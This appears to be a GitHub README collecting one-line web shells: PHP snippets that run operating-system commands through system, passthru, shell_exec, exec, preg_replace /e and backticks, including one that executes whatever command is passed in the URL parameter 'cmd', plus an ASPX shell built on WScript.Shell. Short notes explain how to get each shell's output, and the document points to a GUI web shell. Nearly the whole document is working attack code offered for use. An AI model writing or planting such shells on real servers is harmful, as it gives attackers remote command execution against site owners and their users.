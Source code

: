 # WebShells

#### This repo contains one liner web shells

# PHP Webshells

#### Execute one command
```<?php system("whoami"); ?>```

#### Take input from the url paramter. shell.php?cmd=whoami
```<?php system($_GET['cmd']); ?>```

#### The same but using passthru
```<?php passthru($_GET['cmd']); ?>```

#### For shell_exec to output the result you need to echo it
```<?php echo shell_exec("whoami");?>```

#### Exec() does not output the result without echo, and only output the last line. So not very useful!
```<?php echo exec("whoami");?>```

#### Instead to this if you can. It will return the output as an array, and then print it all.
```<?php exec("ls -la",$array); print_r($array); ?>```

#### preg_replace(). This is a cool trick
```<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>```

#### Using backticks
```<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>```

#### Using backticks
```<?php echo `whoami`; ?>```

#### Web shell with GUI
Try Sweetuu : ```github.com/cspshivam/sweetuu```

# ASPX Webshell

#### Execute Command
```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

This shell can be binded with ```web.config``` file

